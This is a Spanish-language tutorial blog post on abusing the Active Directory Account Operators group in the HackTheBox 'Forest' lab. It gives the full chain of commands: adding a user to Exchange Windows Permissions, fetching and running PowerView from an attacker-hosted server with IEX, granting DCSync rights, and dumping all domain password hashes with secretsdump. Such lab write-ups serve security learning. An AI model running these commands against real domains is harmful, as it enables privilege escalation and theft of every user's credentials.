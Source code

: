 ```yaml
---
title: Active Directory - Abusando del Grupo Account Operators
description: Abusando del grupo Account Operators para desencadenar en un DCSync Attack.
date: 2024-11-06
categories: [active-directory, account-operators]
tags: [grupos-de-usuarios-especiales, dcsync, secretsdump, exchange-windows-permissions, escalada-de-privilegios, casos-de-ataques-ad]
img_path: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
image: /assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png
---
```


## **Introducción**

El grupo **Account Operators** lo que nos permite es la creación, modificación y eliminación de usuarios y grupos. Es por esto, por lo que supone una vía potencial de **escalada de privilegios** ya que podemos crear un usuario y asignarle el grupo *Exchange Windows Permissions* el cual, nos permitirá efectuar un *DCSync Attack*.

### **Gráfico del escenario**

En este escenario, aprenderemos a abusar del grupo **Account Operators** para poder realizar un *DCSync Attack*. Primero, crearemos un usuario aprovechando los permisos del grupo **Account Operators**. A este usuario, lo añadiremos al grupo **Exchange Windows Permissions**, desde el cual podremos asignarnos el privilegio de *DCSync*.

![esquema representativo para un dcsync desde svc-alfresco](/assets/img/esquema-representativo-para-un-dcsync-desde-svc-alfresco.png)

### **Contexto**

Supongamos que estamos en el grupo *Account Operators*, o en algún grupo que indirectamente sea miembro de dicho grupo. En este caso, nos encontramos como el usuario *svc-alfresco* el cual, es miembro del grupo *Service Accounts*.

![net user svc-alfresco](/assets/img/net-user-svc-alfresco.png)

Este grupo a su vez es miembro de *Privileged IT Accounts* y este mismo grupo a su vez, pertenece al grupo de *Account Operators*. Desde el grupo de *Account Operators* podemos añadir un usuario al grupo de *Exchange Windows Permissions*, desde el cual nos podremos asignar el privilegio de *DCSync* y **dumpearnos todos los hashes NTLMv2 de todos los usuarios del dominio**.

Todo esto, lo podemos ver más claro desde BloodHound.

![esquema de ataque para un dcsync desde svc-alfresco](/assets/img/esquema-de-ataque-para-un-dcsync-desde-svc-alfresco.png)

Al pertenecer indirectamente al grupo **Account Operators**, la cuenta *svc-alfresco* obtiene privilegios que le permiten realizar tareas como:

- **Crear, modificar y eliminar cuentas de usuario**.
- **Gestión de la membresía del grupo**.
- **Desbloqueo y restablecimiento de contraseñas**.
- **Gestión de propiedades de cuenta**.
- **Asignación y modificación de derechos de usuario**.

## **Manos a la obra**

### **Agregando un nuevo usuario a Exchange Windows Permissions**
Para abusar de esto, primeramente empezaremos creando un usuario y añadirle al dominio.

```powershell
net user hegociv hegociv123 /add /domain
```

Podemos comprobar las propiedades de este usuario.

```powershell
net user hegociv
```

![net user hegociv](/assets/img/net-user-hegociv.png)

Seguidamente, vamos a ver los grupos a los que le podemos asignar. En esta lista si observamos, nos encontramos con el grupo *Exchange Windows Permissions*.

![net group exchange windows permissions](/assets/img/net-group-exchange-windows-permissions.png)

Este grupo, tiene el permiso de **WriteDacl access** sobre el dominio (en este caso, sobre *htb.local*), que permite a cualquier miembro de este grupo, modificar los privilegios del dominio. Entre ellos, se encuentra el **privilegio de DCSync**.

Ahora que vemos que el grupo de *Exchange Windows Permissions* está disponible, añadiremos al usuario *hegociv*.

```powershell
net group "Exchange Windows Permissions" hegociv /add
```

Si visualizamos de nuevo, las propiedades de este usuario, veremos como ahora pertenecemos a este grupo.

![net user hegociv exchange windows permissions](/assets/img/net-user-hegociv-exchange-windows-permissions.png)

También, podemos ver los miembros y la información de este grupo.

```powershell
net group "Exchange Windows Permissions"
```

![net group exchange windows permissions information](/assets/img/net-group-exchange-windows-permissions-information.png)

### **Configurando los permisos DCSync**

En este momento, nos encontramos en el punto en el que deberemos de asignar el privilegio de *DCSync* pero antes, deberemos de configurar las credenciales del usuario con los siguientes comandos.

```powershell
$SecPassword = ConvertTo-SecureString 'hegociv123' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMINIO\hegociv', $SecPassword)
```

En este caso, el *DOMINIO* será `htb.local`, por lo que deberemos de dejar este último comando de la siguiente manera.

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hegociv', $SecPassword)
```

Una vez que hemos creado el objeto, podremos manipularlo con `Add-DomainObjectAcl` para decirle: "*quiero que este usuario, cuya credencial es esta, asignarle el privilegio de DCSync*". Sin embargo, el comando de `Add-DomainObjectAcl` no existe de primeras, por lo que tendremos que invocarlo.

Para invocarlo, usaremos *[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)* desde el que nos descargaremos el binario de *[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)*.

```bash
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
```

Seguidamente, realizaremos una carga remota, por lo que nos ponemos primeramente en escucha con *Python3*, desde la ruta en la que se encuentra el binario de *PowerView.ps1*.

```bash
python3 -m http.server 8080
```

E invocaremos el binario desde *PowerShell* en la máquina víctima.

```powershell
IEX(New-Object Net.WebClient).downloadString('http://NUESTRA-IP:8080/PowerView.ps1')
```

Gracias a esto, habremos invocado el comando directamente.

![invocando el comando remotamente](/assets/img/invocando-el-comando-remotamente.png)

### **Efectuando un DCSync**

Ahora sí, podremos ejecutar el comando `Add-DomainObjectAcl` para asignar el privilegio de *DCSync*. Teniendo en cuenta que, nuestro dominio es *htb.local* y nuestro usuario es *hegociv*, deberemos de ejecutar el comando de la siguiente manera. Si tenemos otros datos, modificaremos estos mismos para que adaptarlo a nuestro caso.

>**A tener en cuenta**<br>
>El propio *BloodHound*, nos dice de asignar el privilegio *DCSync* de la siguiente forma:
>
>`Add-DomainObjectAcl -Credential $Cred -TargetIdentity DOMINIO -Rights DCSync`
>
>Sin embargo, este comando no nos funcionará correctamente y se nos quedará pillado. Por eso, debemos de modificar este comando para que funcione adecuadamente.

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity hegociv -Rights DCSync
```

Ahora sí, podremos **dumpear todos los hashes NTLMv2 de los usuarios**. Para ello, usaremos `secretsdump.py` o `impacket-secretsdump`, indicándole el dominio, usuario e IP del DC correspondiente. Además, podemos indicarle que nos guarde todos los *hashes* en un fichero que nosotros le indicaremos con el parámetro `-outputfile`.

```bash
impacket-secretsdump DOMINIO/hegociv@IP -outputfile dcsync_hashes
```

![dumpeando todos los hashes NTLMv2 del dominio con impacket-secretsdump](/assets/img/dumpeando-todos-los-hashes-NTLMv2-del-dominio-con-impacket-secretsdump.png)

Podemos visualizar estos *hashes*, en el fichero que le hemos especificado más `.ntds`.

![fichero dcsync_hashes ntds secretsdump](/assets/img/fichero-dcsync-hashes-ntds-secretsdump.png)

## Enlaces de referencia
Los siguientes son una serie de enlaces los cuales, me han ayudado a realizar este artículo y a aprender sobre ello.

- [Account Operators Privilege Escalation](https://blog.cyberadvisors.com/technical-blog/blog/account-operators-privilege-escalation)
- [Máquina Forest - HackTheBox](https://app.hackthebox.com/machines/212)
- [Resolución de la Máquina Forest - S4vitar](https://www.youtube.com/watch?v=7G5wkoBpFWU)
- [HackTricks - Dcsync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync)
- [Everything you need to know about DCSync attacks](https://blog.quest.com/everything-you-need-to-know-about-dcsync-attacks/)

## Despedida
Muchas gracias por leer este artículo, espero que hayas aprendido mucho sobre este escenario en el que abusamos del grupo de **Account Operators** para derivarlo a un **DCSync Attack**. ¡Nos vemos en la próxima
